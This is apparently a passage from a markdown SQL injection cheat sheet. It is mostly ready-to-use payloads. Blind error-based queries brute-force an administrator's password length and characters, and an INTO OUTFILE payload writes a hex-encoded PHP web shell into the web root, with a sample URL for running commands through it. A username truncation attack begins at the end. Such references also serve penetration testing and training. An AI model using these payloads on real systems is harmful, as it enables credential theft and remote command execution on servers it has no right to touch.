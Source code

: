 ### 2. Check if Content Value Exists

```txt
'|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

If so, determine the password length

```txt
''||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
''||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
...
''||(SELECT CASE WHEN LENGTH(password)=8 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

Brute force password character

```txt
'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
...
'||(SELECT CASE WHEN SUBSTR(password,8,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

<br />

## Writing Files

- Write new php file. **'0x3C3F...'** is a hex value means **"\<?php system($_GET["cmd"]) ?\>"**
- Accessing to http://10.0.0.1/shell.php?cmd=whoami

```html
' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED by 0x3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E-- -
' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED by 0x3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E#
```

<br />

## Truncation Attack

We can add another user which is the same name as the existing user by registering the same name user with enough “spaces” to truncate a username.  
First off, check the table schema if can.

```sh
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
```
